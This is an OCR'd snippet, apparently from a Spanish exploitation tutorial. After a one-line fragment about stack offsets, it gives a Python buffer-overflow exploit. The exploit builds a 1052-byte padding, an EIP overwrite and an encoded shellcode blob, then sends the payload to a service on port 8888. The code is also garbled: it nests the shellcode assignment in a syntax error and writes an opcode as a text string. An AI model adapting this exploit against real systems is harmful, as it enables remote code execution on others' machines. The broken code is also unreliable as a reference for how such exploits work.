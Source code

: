 o en el caso del desplazamiento de la pila

```python
 #!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    shellcode = (shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
        b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
        b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
        b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
        b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
        b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
        b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
        b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
        b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
        b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
        b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
        b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
        b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
        b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
        b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
        b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
        b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
        b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
        b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
        b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
        b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
        b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
        b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
        b"\xb0\xbc\x3b\xba\xb1\x94"))
    offset = 1052
    before_eip = b"A" * offset
    eip = pack("<I", 0x68a98a7b)

    payload = before_eip + eip + b"83ec10" + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```
